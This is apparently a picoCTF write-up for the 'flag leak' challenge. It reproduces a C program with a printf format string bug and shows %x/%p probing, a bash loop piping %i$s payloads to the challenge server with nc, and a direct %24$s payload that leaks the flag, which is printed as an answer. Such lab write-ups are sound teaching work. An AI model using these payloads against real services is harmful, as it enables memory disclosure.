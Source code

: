 # Binary Exploitation  

## flag leak  
<img width="437" alt="image" src="https://github.com/user-attachments/assets/d8b21349-c1e8-428c-8345-441272c33f2f" />  

This challenge was a little bit on the tougher side as compared to the format string 0.  
We were given a C program like this:  
```
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/types.h>
#include <wchar.h>
#include <locale.h>

#define BUFSIZE 64
#define FLAGSIZE 64

void readflag(char* buf, size_t len) {
  FILE *f = fopen("flag.txt","r");
  if (f == NULL) {
    printf("%s %s", "Please create 'flag.txt' in this directory with your",
                    "own debugging flag.\n");
    exit(0);
  }

  fgets(buf,len,f); // size bound read
}

void vuln(){
   char flag[BUFSIZE];
   char story[128];

   readflag(flag, FLAGSIZE);

   printf("Tell me a story and then I'll tell you one >> ");
   scanf("%127s", story);
   printf("Here's a story - \n");
   printf(story);
   printf("\n");
}

int main(int argc, char **argv){

  setvbuf(stdout, NULL, _IONBF, 0);
  
  // Set the gid to the effective gid
  // this prevents /bin/sh from dropping the privileges
  gid_t gid = getegid();
  setresgid(gid, gid, gid);
  vuln();
  return 0;
}
```
This program indicated that the variable story can contain upto **127** strings, where story is **buffers size with 128 bytes**.  
Seeing the hint I tried multiple ways of doing this chall, starting with multiple **%x**. This gave output like these.  
<img width="485" alt="image" src="https://github.com/user-attachments/assets/b5e479fa-9e98-4436-9b6f-c17e73cd024b" />  

Also tried using many **%s**, but they just printed %s. I realised that when I was trying to input some random string, it would
just print it back. 
```
Tell me a story and then I'll tell you one >> yes
Here's a story -
yes
```

Only with %x and %p, it gave the **memory addresses**.  
```
Tell me a story and then I'll tell you one >> %p %p %p %p
Here's a story -
0xff858d40
```

Well, I tried putting more number of %x and %p, but that didn't help.  
So I went through some resources on format string, that said to make use of `gdb` or `pwn` in python, but that also wont work.  

Next I found out that the flag is present at a specific memory address, in the format `%$i\$s` (where `\` is used as an escape character with `$` symbol and `$i` is a number (like 1, 2, 3…). eg %12$s. But inputting
these values one by one was a tedious task, so I made use of **for** statement and **piping (|)** command for running instance.  
```
for i in {0..999}; do echo "%$i\$s" | nc saturn.picoctf.net 56521 ;
done
Tell me a story and then I'll tell you one >> Here's a story -
%0$s
Tell me a story and then I'll tell you one >> Here's a story -
%1$s
Tell me a story and then I'll tell you one >> Here's a story -
!��
Tell me a story and then I'll tell you one >> Here's a story -
�ú,
Tell me a story and then I'll tell you one >> Here's a story -
Tell me a story and then I'll tell you one >> Here's a story -
Tell me a story and then I'll tell you one >> Here's a story -
(null)
Tell me a story and then I'll tell you one >> Here's a story -
/
```

Here, 
**%<index>$s**: this tells the program to interpret the memory at the the given index stack position as a string and print it. So if the flag is located there,
it will print it.  
`for i in {0..999}`: is the loop that **repeats** itself 999 times, each time given different values to i.  
then I sent input to `nc saturn.picoctf.net 56521` via piping command.   

This list seemed never ending, so for finding the flag, I used `grep` command:  
```
root@DESKTOP-0QGCC7M:/mnt/c/Users/Laptop/Downloads# for i in {0..999}; do echo "%$i\$s" | nc saturn.picoctf.net 56521 | grep -i ctf
; done
CTF{L34k1ng_Fl4g_0ff_St4ck_999e2824}  
```  
where `-i` was used to **ignore case sensitivity**.  

Hence found the flag!  
**picoCTF{L34k1ng_Fl4g_0ff_St4ck_999e2824}**

_**Alternatively:**_   
Went through some other similar challenges and found that by printing all the strings at different memory locations, the required flag was present at **24th** index.  
This was determined by creating the flag.txt and printing some random flag in it. At that same location, the actual flag was present after launching the instance.  
```
root@DESKTOP-0QGCC7M:/mnt/c/Users/Laptop/Downloads# nc saturn.picoctf.net 57913
Tell me a story and then I'll tell you one >> %24$s
Here's a story -
CTF{L34k1ng_Fl4g_0ff_St4ck_999e2824}
```












